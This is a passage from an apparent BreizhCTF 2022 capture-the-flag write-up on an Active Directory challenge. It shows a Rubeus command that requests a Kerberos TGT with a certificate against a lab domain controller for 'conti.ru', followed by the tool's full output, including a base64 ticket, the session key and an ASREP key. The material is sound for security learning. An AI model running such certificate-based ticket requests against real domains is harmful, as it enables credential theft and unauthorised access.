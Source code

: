 ![Kerberos SKEW](/assets/breizhctf-22-kerberos-skew.png)

Let's try again with clock alligned:
```
C:\Users\user\Downloads> ./Rubeus.exe asktgt /user:???????? /certificate:????????.pfx /domain:conti.ru /dc:10.0.20.11 /createnetonly:C:\Windows\System32\cmd.exe  /getcredentials
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/  v2.0.2
[*] Action: Ask TGT
[*] Showing process : False
[*] Username        : 8C6NPBIX
[*] Domain          : T78KN4RS
[*] Password        : KTK21ESA
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 5128
[+] LUID            : 0x343283
[*] Using PKINIT with etype rc4_hmac and subject: CN=?????
[*] Building AS-REQ (w/ PKINIT preauth) for: 'conti.ru\????????'
[*] Target LUID : 3420803
[*] Using domain controller: 10.0.20.11:88
[+] TGT request successful!
[*] base64(ticket.kirbi):
      doIGTjCCBkqgAwIBBaEDAgEWooIFXTCCBVlhggVVMIIFUaADAgEFoQobCENPTlRJLlJVoh0wG6ADAgEC
      oRQwEhsGa3JidGd0Gwhjb250aS5ydaOCBR0wggUZoAMCARKhAwIBAqKCBQsEggUHRzsczbSM/Q4KLi0/
      3EGc3dTPdCJkND8ThMqGyvrQ9qQTLVNcCMqvs+hqIwxkrR7piDwJYHknzF25WtLWdcpErbsLOzze1lKK
      kPgHsextNyVOQHKhO1+Sm4Ry1u0Aa619rMfU4I/UQ3uplGcals34BnKtx0mVULJZokoAeWG7TsxZwQeL
      +oWW03xl718h095MCnamgIE0UigHg1iUz2/Md6b2cNuypCytPdo2Cr+iuO4SB53RxPapTxni9624qYyx
      GjHlOVegOaQPntNYZfvmvl1v015fLiNsU5ss/DyaLF5K1Xo1Qkz3eoA26YsaTGpg9wGuW5wEWHmjq6Er
      h/IpUmea0hRqPR0yKcYDeVa4YsNo7Fc2G5JuBtX5MjSV6f6dQ0PcSni6mFcxT3H/Gi91q7I1gK7Nl4kw
      [...]
      Akcg3UyFBaoaYessGLmwqEnyNe7UeAQdmB0LKiwSlL6WqTxgbyM0MiLE5lk2biEuW6uz4dl3lQ7nWmqy
      KrhgdxNTCZXekQeRlhrzctYyjFfo20NYTYDzCnIuCHahdkVpVrCqBTKswU9QKjiOScGApEdgoPIUUtc3
      FEV3wVJL7Nv0iKMtDgz7MVGh/eoq4ObBo6Z/cxY0xZMTz0bzTErSVI3CcwaxkGzktBRKWj4YSKqCl/sG
      DFA9CUngRPD+etUaE2JiqHS/CgTRaworwLPAcHyOMbY7Q/kTzRjBvrF6nF9a6IzAnl0JIbryI34TWrX7
      C9DW9Go6RniORoq6R4Lko4HcMIHZoAMCAQCigdEEgc59gcswgciggcUwgcIwgb+gGzAZoAMCARehEgQQ
      LfNiidKACxOqykFrOkoURKEKGwhDT05USS5SVaInMCWgAwIBAaEeMBwbGtCQ0JTQnNCY0J3QmNCh0KLQ
      oNCQ0KLQntCgowcDBQBA4QAApREYDzIwMjIwNDAyMDIwNjQ4WqYRGA8yMDIyMDQwMjEyMDY0OFqnERgP
      MjAyMjA0MDkwMjA2NDhaqAobCENPTlRJLlJVqR0wG6ADAgECoRQwEhsGa3JidGd0Gwhjb250aS5ydQ==
[*] Target LUID: 0x343283
[+] Ticket successfully imported!  ServiceName              :  krbtgt/conti.ru
  ServiceRealm             :  CONTI.RU
  UserName                 :  ????????
  UserRealm                :  CONTI.RU
  StartTime                :  02/04/2022 02:06:48
  EndTime                  :  02/04/2022 12:06:48
  RenewTill                :  09/04/2022 02:06:48
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  LfNiidKACxOqykFrOkoURA==
  ASREP (key)              :  25975C2EA613F124361E4B6BD72D644B
```